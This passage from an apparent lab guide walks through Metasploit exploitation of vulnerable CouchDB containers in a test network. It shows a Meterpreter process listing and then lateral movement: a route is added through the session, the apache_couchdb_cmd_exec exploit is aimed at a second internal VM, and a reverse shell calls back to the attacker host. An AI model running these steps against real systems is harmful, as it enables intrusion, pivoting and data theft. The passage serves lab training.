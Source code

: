    * Type **sessions -i 3** to interact with the newly established **Meterpreter** session
   * You can now run commands as in the previous exercise but gain more information about the **App1-APP-TIER VM**, retrieve or destroy data. Below is an example

```console
meterpreter > ps

Process List
============

 PID   PPID  Name          Arch    User  Path
 ---   ----  ----          ----    ----  ----
 1     0     beam.smp      x86_64  root  /opt/couchdb/erts-6.2/bin
 36    1     sh            x86_64  root  /bin
 37    1     memsup        x86_64  root  /opt/couchdb/lib/os_mon-2.3/priv/bin
 38    1     cpu_sup       x86_64  root  /opt/couchdb/lib/os_mon-2.3/priv/bin
 40    1     inet_gethost  x86_64  root  /opt/couchdb/erts-6.2/bin
 41    40    inet_gethost  x86_64  root  /opt/couchdb/erts-6.2/bin
 42    1     couchjs       x86_64  root  /opt/couchdb/bin
 45    1     sh            x86_64  root  /bin
 48    45    sh            x86_64  root  /bin
 1392  1     sh            x86_64  root  /bin
 1395  1392  sh            x86_64  root  /bin
 1552  1395  woPDm         x86_64  root  /tmp
 1559  1     sh            x86_64  root  /bin
 1562  1559  sh            x86_64  root  /bin
 1754  1562  Qkchu         x86_64  root  /tmp
 1760  0     bash          x86_64  root  /bin
```
> **Note**: The VMs deployed in this lab run Drupal and CouchCB services as containers (built using Vulhub). The establshed session puts you into the container **cve201712635_couchdb_1** container shell.

6.	Now we can pivot the attack once more and laterally move to other application VM deployed in the same network segment as **App1-APP-TIER VM**. We will will use the same **apache_couchdb_cmd_exec** exploit to  the **App2-APP-TIER VM** on the internal network, which also is running a vulnerable **CouchDB** Service. 

**Initiate CouchDB Command Execution attack against App2-APP-TIER VM through App-1-APP-TIER VM**
1.	Using the already open Metasploit console, follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **background** to move the open meterpreter session to the background.
    * Type **route add 192.168.20.101/32 3** to route traffic to the **App2-APP-TIER VM** through the previusly established meterpreter session. The IP address specified should be the IP address of the **App2-APP-TIER VM**
    * Type **use exploit/linux/http/apache_couchdb_cmd_exec** to select the CouchDB Command Execution exploit module
    * Type **set RHOST 192.168.20.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App2-APP-TIER VM**. (check the NSX VM Inventory to confirm)+
    * Type **set LHOST 10.114.209.151** to define the IP address of the local attacker machine. The IP address should match the IP address of **EXTERNAL VM**. (This IP will be different in your environment !. You can run **ifconfig** to determine this IP)
    * Type **set LPORT 4446** to define the local port to use. The reverse shell will be established to this local port
    * Type **exploit** to initiate the exploit and esbalish a command shell
```console
meterpreter > background
[*] Backgrounding session 3...
msf5 post(multi/manage/shell_to_meterpreter) > route add 192.168.20.101/32 3
[*] Route added
msf5 post(multi/manage/shell_to_meterpreter) > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOST 192.168.20.101
RHOST => 192.168.20.100
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.114.209.151
```